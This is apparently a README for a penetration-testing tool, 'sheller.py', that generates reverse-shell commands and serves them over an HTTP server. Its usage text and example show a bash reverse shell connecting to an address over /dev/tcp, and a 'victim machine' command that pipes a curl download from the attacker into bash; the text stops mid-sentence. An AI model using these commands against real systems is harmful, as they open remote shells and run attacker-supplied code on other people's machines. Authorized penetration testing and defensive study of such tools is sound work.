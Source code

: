 # Reverse shell vending machine

This is a VERY simple script that can be used to create your basic reverse-shell commands.

All of this commands can be found online, and several people like [PentestMonkey](https://github.com/pentestmonkey) have made collections of them already. This is another collection, that can be used to insert the local IP and PORT easily.


```
usage: sheller.py [-h] [-l SHELL] [-a LOCALADDR] [-p LOCALPORT] [-o OUTFILE]
                  [-s] [-i INTERFACE] [--httpserver] [--httpport HTTPPORT]

A script to generate reverse shells on various languages and serve them on
http-server.

optional arguments:
  -h, --help           show this help message and exit
  -l SHELL             Language to identify the shell to be built. Use -s to
                       see available shells.
  -a LOCALADDR         Address to connect back to
  -p LOCALPORT         Port to connect back to
  -o OUTFILE           File to write the reverse shell to
  -s                   Print available shells
  -i INTERFACE         Interface name to get ip for reverse shell script
  --httpserver         Server the reverse-shell file on a http server
  --httpport HTTPPORT  Port to start HTTP server in, default 80
  ```
  
  ## Example:

  ```
  sudo python3 sheller.py -l bash -p 8080 --httpserver -i eth4
  ```

  produces:

  ```
  bash -i >& /dev/tcp/169.254.138.91/8080 0>&1
  ```

  and serves it on http-server at all interfaces on port 80 at / http://localhost
  
  on victim machine:
  ```
  curl [attacker_ip] | bash
  ```

  should run the reverse shell with generated
